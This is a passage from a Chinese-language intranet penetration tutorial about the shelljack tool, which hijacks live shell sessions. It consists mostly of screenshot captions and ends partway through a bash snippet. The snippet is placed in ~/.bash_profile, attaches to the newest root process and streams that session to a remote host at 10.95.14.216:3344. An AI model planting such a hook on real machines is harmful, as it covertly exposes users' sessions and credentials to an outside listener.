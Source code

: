 网络连接情况:

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/8add7940517e73ed0c434d9fe3cd85aa.png)

结束掉会话进程后远程的ssh连接将关闭:

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/72eedc6f8f159f8ee2d9e34493ce71bd.png)

结束掉shelljack进程:

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/186e6bf98be4c75d448f2fc027d1ab27.png)

记录停止且远程的ssh连接将关闭:

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/e1c490c8d813b5b98b2807f364aa52d9.png)

自动化利用:

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/f44e1d8c195a92f58c12d2966272feaf.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/3ea4c390bb01da4d191380753bb7f211.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/83f162c229da88ad45ae1f6f9169a69d.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/853c4d4be1b7d03605e8fcaba6599ec8.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/b9f44b1132a9e0b04ffd21aac7b090ed.png)

多个root用户同时登入及同时本地记录到文件(脚本进阶):

开发加测试阶段\~/.bash_profile:

\#/root/w/shelljack -f /root/local.log \$\$(either this or below)

num=3344

tmp=\$(ps -ef \| grep "root" \| grep -v grep \| awk '{print \$2}' \| tail -n 1)

echo \$tmp

output=\$(/root/w/shelljack -n 10.95.14.216:\$num \$tmp 2\>&1)

echo output\$output

if [[ \$output = "" ]]

then

echo 123

\#kill -9 \$(ps -ef \| grep "shelljack \\-n 10.95.14.216 \$num" \| awk '{print
\$2}' \| tail -n 1)

sleep 10

/root/w/shelljack -n 10.95.14.216:\$num \$\$

else
